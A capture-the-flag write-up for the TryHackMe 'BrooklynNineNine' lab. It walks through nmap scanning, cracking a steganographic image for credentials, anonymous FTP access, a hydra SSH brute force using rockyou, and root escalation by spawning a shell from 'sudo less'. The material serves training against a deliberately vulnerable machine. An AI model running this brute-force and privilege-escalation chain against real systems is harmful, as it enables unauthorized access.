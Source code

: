 # BrooklynNineNine - solution
- Link: https://tryhackme.com/room/brooklynninenine
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,80 <IP> -oN ports`

## Port 80 - website recognition
- `wget http://<IP>/brooklyn99.jpg` to download the img
- `stegcracker brooklyn99.jpg` to crack the passphrase
- `steghide extract -sf brooklyn99.jpg`
- Extracted credentials, saved them in `/credentials` 

## Port 21 - ftp-anon: anonymous FTP login allowed
- `cd content`
- `ftp <IP>` (name: `anonymous`, password: `<Enter>`)
- Inside the FTP shell:
  - `ls`
  - `get note_to_jake.txt` to download the resource
- `cat note_to_jake.txt` 
- Found likely users: `amy` `holt` `jake`

## Port 22 - SSH 
- `hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP>`
- Cracked `jake`'s SSH password, saved in `/credentials` 
- `ssh jake@10.10.67.99` (password: `<password`)
- Inside the SSH shell:
  - `pwd` (we are into `/jake`)
  - `cd ..` to come back into `/home` folder
  - Found `/amy` `/holt` `/jake` folders
  - `cd holt`
  - `cat user.txt` 
    - Found the `USER FLAG`
  
## Port 22 - SSH - Privileges escalation
- Inside the SSH shell:
  - Cannot access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries 
  - `sudo -l` to discover which binary the active user may run as superuser
  - Found `/usr/bin/less`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- Inside the SSH shell:
  - `sudo less /etc/profile`
  - `!/bin/sh`
  - `whoami` to check if I'm the root user now
  - `cd /root`
  - `cat root.txt` 
    - Found the `ROOT FLAG`